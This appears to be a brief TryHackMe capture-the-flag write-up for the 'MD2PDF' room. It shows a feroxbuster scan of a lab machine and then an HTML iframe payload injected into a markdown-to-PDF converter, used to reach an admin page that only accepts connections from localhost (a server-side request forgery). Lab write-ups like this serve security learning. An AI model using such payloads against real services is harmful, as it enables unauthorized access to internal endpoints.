 ```yaml
---
title: MD2PDF
description: 'Injecting an iframe in a markdown file to gain access to an HTTP server which only allows connections from localhost'
pubDate: 2024-05-17
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/c53da808dba7b45a03b79dacf587ebb6.png'
---
```


Feroxbuster finds this:

```bash
feroxbuster -u http://10.10.243.116
...[snip]...
404      GET        4l       34w      232c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        4l       18w      166c http://10.10.243.116/admin
200      GET      102l      182w     2660c http://10.10.243.116/
405      GET        4l       23w      178c http://10.10.243.116/convert
[####################] - 16s    30009/30009   0s      found:3       errors:13776
[####################] - 16s    30000/30000   1924/s  http://10.10.243.116/
```

Note that there is a "copy" running on port `5000`.

We can inject an iframe to get access to the admin page.

Payload of the markdown file which will be converted to PDF:
```html
<iframe src=http://localhost:5000/admin height=500 width=500></iframe>
```
